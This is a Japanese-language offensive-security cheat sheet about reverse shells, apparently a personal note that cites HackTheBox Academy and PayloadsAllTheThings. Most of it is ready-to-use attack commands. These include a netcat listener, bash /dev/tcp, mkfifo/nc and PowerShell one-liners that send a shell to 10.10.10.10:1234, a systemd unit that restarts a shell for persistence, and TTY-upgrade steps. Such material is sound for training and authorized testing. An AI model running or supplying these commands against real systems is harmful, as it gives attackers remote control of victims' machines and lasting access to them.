 ```yaml
---
tags:
  - Offensive
---
```


# Reverse Shell

エクスプロイトを実行して、攻撃対象のマシンに侵入またはリモートコードを実行できるとき、攻撃対象のマシンでコマンドを実行して、自分のマシンにシェルにリダイレクトさせることで、そのプロセスが生きている間は自分のマシンからいくらでもコマンドを実行できる。

[[BindShell]]の逆。

攻撃対象が自分からシェルを渡しに行く形になるので、INPUTのファイアーウォールを無視できる。

攻撃対象のマシンでシェルが閉じられた場合、すぐに切れてしまうのが弱点。そうなった場合、またエクスプロイトを実行してやり直す必要がある。その対策として、サービスとして自動で起動させる方法もある。

## NetCatで待ち受ける
```bash
nc -vnlp <使いたいポート>
```

## 攻撃対象のマシンで実行するコマンド例

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

- bash
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1
```
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```
- Powershell
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

## サービスの例

- .serviceファイル
```service
[Unit]
Description=<サービの説明>

[Service]
ExecStart=/bin/bash <サービスのshファイル>
Restart=always
RestartSec=3

[Install]
WantedBy=multi-user.target
```
- サービスを起動
```
systemctl enable <サービス名>
```

## TTY

このままでは、矢印などが効かないので、ttyの設定をする。

1. 攻撃対象のマシンで実行(nc上)
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

2. 自分のマシンで実行
`Ctrl + z`で一時停止して、以下のコマンドを実行する。
```bash
stty raw -echo; fg
```

3. 自分のマシンで実行 (オプション)
以下の2つの出力をメモする。
```bash
echo $TERM
```
```bash
stty size
```
4. 攻撃対象のマシンで実行(nc上)
環境に合わせて適宜調整する。
```bash
export TERM=さっきの出力
```
```bash
stty rows さっきの出力 columns さっきの出力
```

---

## 参照

1. https://academy.hackthebox.com/module/77/section/725
2. https://qiita.com/docdocdoc/items/2427fa5ea28adc9f329f0